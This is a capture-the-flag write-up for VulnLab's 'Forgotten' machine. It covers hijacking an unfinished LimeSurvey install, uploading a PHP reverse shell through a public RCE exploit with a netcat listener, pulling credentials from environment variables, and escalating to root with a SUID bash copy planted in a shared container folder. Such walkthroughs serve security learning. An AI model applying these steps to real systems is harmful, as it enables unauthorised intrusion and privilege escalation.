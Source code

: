 ```yaml
---
title: VulnLab -- Forgotten Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve]
image:
    path: images/forgotten-banner.png
---
```

# Forgotten

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Forgotten** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/forgotten-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.120.62
```

![image.png](../images/forgotten.png)

now let’s check the website running on port 80.

![image.png](../images/forgotten%201.png)

and we got forbidden so let’s now fuzz for directories.

```bash
feroxbuster --url http://10.10.120.62/
```

![image.png](../images/forgotten%202.png)

we got an endpoint named survey so let’s go to the website and see it

![image.png](../images/forgotten%203.png)

as we see there is a website named LimeSurvey running on the port 80 so let’s search for a public exploit for it.

Now let’s try to install it.

![image.png](../images/forgotten%204.png)

notice that we need a database to complete the installation.

so let’s create a database using a docker container

```bash
sudo docker run --name limesurvey -e MYSQL_ROOT_PASSWORD=remoremo -e MYSQL_DATABASE=limesurvey -e MYSQL_USER=lime -e MYSQL_PASSWORD=remoremo -p 3306:3306 -d mysql:latest
```

![image.png](../images/forgotten%205.png)

now let’s try to connect to the database.

![image.png](../images/forgotten%206.png)

now let’s continue to the next step

![image.png](../images/forgotten%207.png)

now let’s populate the database and set the admin password to remoremo

![image.png](../images/forgotten%208.png)

now let’s login as the administrator

![image.png](../images/forgotten%209.png)

after we got everything ready let’s search for a CVE in limeSurvey

![image.png](../images/forgotten%2010.png)

and we got RCE let’s get it and edit the php reverse shell IP and port

![image.png](../images/forgotten%2011.png)

now let’s make this reverse shell as a zip file

```bash
zip N4s1rl1.zip config.xml revshell.php
```

![image.png](../images/forgotten%2012.png)

now let’s open a listener on our machine

```bash
nc -lvnp 1337
```

![image.png](../images/forgotten%2013.png)

Now let’s run our exploit.

```bash
python3 exploit.py http://10.10.120.62/survey admin remoremo 80
```

![image.png](../images/forgotten%2014.png)

now let’s check our listner

![image.png](../images/forgotten%2015.png)

now let’s type hostname to check the environment 

```bash
hostname
```

![image.png](../images/forgotten%2016.png)

and we are in a docker container so let’s run env

```bash
env
```

![image.png](../images/forgotten%2017.png)

and we found limesurvey password so let’s connect to the user limesvc via ssh 

```bash
ssh limesvc@10.10.120.62
```

![image.png](../images/forgotten%2018.png)

and we broke out of the container now let’s see the user flag.

![image.png](../images/forgotten%2019.png)

Now let’s go back to our container and switch to root.

![image.png](../images/forgotten%2020.png)

now in the container copy the bash and add the SUID binary to it.

```bash
cp /bin/bash .;chmod +s bash
```

![image.png](../images/forgotten%2021.png)

now let’s go back to the main host and list the container files.

```bash
cd /opt/limesurvey ; ls -las
```

![image.png](../images/forgotten%2022.png)

notice that we got a root with the SUID binary set to it so now let’s go and get root assess

```bash
./bash -p
```

![image.png](../images/forgotten%2023.png)

now let’s go to the root directory and list the flag

```bash
cd /root ; ls -las
```

![image.png](../images/forgotten%2024.png)

and I did it we got the root flag!

![image.png](../images/forgotten%2025.png)

That’s it for the **Forgotten** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX